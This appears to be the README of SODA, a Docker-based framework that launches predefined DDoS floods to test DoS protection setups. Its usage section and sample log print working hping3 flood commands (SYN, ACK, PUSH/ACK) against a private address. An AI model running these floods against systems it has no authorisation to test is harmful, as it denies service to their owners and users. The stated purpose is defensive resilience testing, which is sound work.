 # Simulation of DDoS Attacks
SODA framework allows to launch any kind of DDoS attacks to discover your application weaknesses or evaluate DDoS protection device configuration.
## Description
SODA wraps up together multiple traffic generation tools to symplify and unify DoS protection testing. It allows to send any kind DoS attack by specifying its name without figuring out flags for particular traffic generation tool.
Such approach also allows to standardize DoS posture testing because attack patterns are repeatable..
## Features
- Large list of predefined DoS attacks
- Sends single attack vector or morphs vector with predefined pattern and interval
- Automatically scales particular attack tool to multiple CPU cores
# Usage
1. Build SODA image
```
attacker@host$ docker build -t . soda
```
2. List all avaliable attacks and pick attack ID
```
attacker@host$ docker run --rm soda -l
0: TCP SYN Flood
1: NTP Flood
2: TCP SYN/ACK Flood
3: NTP Non-standard Port Flood
4: TCP Zero Sequence Flood
5: TCP ACK Flood
6: TCP PUSH/ACK Flood
```
3. Launch SODA
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock soda -d http://10.11.73.12/url.html -n vlan973 -i 3 -a 4
2019-08-01 18:20:30.350264 ATTACK START: TCP Zero Sequence Flood: hping3 -S -p 80 -M 0 --flood 10.11.73.12
2019-08-01 18:20:38.004443 ATTACK STOP: TCP Zero Sequence Flood
2019-08-01 18:20:38.034628 ATTACK START: TCP ACK Flood: hping3 -A -p 80 --flood 10.11.73.12
2019-08-01 18:20:45.697750 ATTACK STOP: TCP ACK Flood
2019-08-01 18:20:45.729307 ATTACK START: TCP PUSH/ACK Flood: hping3 -PA -p 80 -d 64 --flood 10.11.73.12
2019-08-01 18:20:53.370087 ATTACK STOP: TCP PUSH/ACK Flood
^CKilling all running containers...
goofy_keldysh
```
